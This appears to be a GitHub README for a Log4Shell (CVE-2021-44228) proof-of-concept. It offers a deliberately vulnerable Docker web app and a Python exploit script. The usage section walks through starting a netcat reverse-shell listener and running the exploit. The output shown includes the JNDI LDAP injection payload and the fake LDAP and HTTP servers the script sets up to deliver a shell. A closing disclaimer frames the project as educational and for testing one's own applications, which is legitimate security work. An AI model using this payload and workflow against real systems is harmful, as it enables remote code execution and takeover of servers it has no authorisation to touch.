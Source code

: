 # Log4Shell Vulnerable WebApp PoC

A Proof-Of-Concept vulnerable web application for the Log4J vulnerability (CVE-2021-44228), based off Kozmer's Log4Shell POC.  This simple fork allows a web browser's User Agent to be logged when the site is visited.
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## A video showing the exploitation process

Vuln Web App:

<https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4>

Ghidra (Old script):

<https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4>

Minecraft PoC (Old script):

<https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4>

Proof-of-concept (POC)

As a PoC we have created a python file that automates the process.

### Requirements

```bash
pip install -r requirements.txt
```

#### Usage

* Start a netcat listener to accept reverse shell connection.

```py
nc -lvnp 9001
```

* Launch the exploit.
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

Our vulnerable application

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:

```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```

Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

Getting the Java version

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```javascript
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

### Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.
